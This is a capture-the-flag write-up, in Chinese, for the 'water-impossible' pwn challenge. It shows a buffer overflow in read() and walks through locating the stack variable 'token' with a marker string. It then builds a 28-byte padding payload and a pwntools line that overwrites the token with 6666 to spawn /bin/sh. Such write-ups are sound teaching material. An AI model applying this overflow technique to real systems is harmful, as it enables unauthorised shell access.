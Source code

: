 # water-impossible

> Challenge Link: [water-impossible](http://ctf.bamboofox.cs.nctu.edu.tw/challenges#water-impossible)
>
> Category: pwn

Welcome !! Challenger ~
Here is a simple challenge for you.
Try to find the key to pass.

`nc bamboofox.cs.nctu.edu.tw 58799`

[water-impossible.zip](http://ctf.bamboofox.cs.nctu.edu.tw/files/bb63dedd19b55a8fab5a08f28dea6269/water-impossible.zip)

## 觀察

觀察一下code後可以發現觸發`system("/bin/sh")`的條件為`(int)token == 6666`

而token是一個宣告在`main`但從未被使用到的變數

```c
if((int)token == 6666){
  printf("wow, That's impossible to touch this token ?!");
  system("/bin/sh");
}
```

另外可以被exploit的部份為`read()`的 buffer overflow

```c
char key[16];
read(0, key, 40);
```

通常這類ㄒㄧ可能的作法有以下兩種

### 蓋 return

如果stack一直往下蓋的話可以碰到`return`，那就直接跳到`system("/bin/sh")`就好了

不過這題有限制長度40，所以沒辦法蓋到return

### 蓋 token

因為`token`也是宣告在stack上，應該可以找到`token`的位置後直接蓋成想要的值

## 解法

以下解法是用蓋token的方法

### 找 paylod 長度

先輸入以下字串來定位

```
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF
```

到`if((int)token == 6666)`時 stack 狀態如下

![](https://i.imgur.com/0wDePvP.png)

上圖可以看到`token`的位置以及內容是`[rbp-0x4] : 0x7fffffffdf1c ("DDDDEEEEEEEE0آ\367\377\177")`

由此可知到`token`之前，所需要的 payload 長度是 **28** ，也就是

```
AAAAAAAABBBBBBBBCCCCCCCCDDDD
```

### 蓋token的值

因為這支程式是在 **64位元** 的環境編譯的，所以送的時候要給64位元的位址，使用 pwntool 的話只要用`p64()`就可以囉

```python
r.sendline(payload + p64(0x1a0a))
```

